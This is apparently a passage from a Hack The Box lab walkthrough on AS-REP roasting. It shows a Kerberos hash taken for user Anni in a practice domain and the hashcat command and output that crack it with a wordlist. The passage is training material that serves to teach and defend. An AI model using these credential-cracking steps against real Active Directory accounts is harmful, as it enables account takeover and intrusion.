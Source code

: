 ![Rubeus](img/Rubeus.png)

Once `Rubeus` **obtains the hash** for the user `Anni` *(the only one in the playground environment with preauthentication not required)*, we will move the output text file to a linux attacking machine.

For `hashcat` to be able **to recognize the hash**, we need to edit it by adding `23$` after `$krb5asrep$`:

```txt
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

We can now use `hashcat` with the hash-mode (option `-m`) `18200` for `AS-REPRoastable hashes`. We also pass a dictionary file with passwords *(the file `passwords.txt`)* and save the output of any successfully cracked tickets to the file `asrepcracked.txt`:

```bash
trustinveritas@htb[/htb]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

hashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
```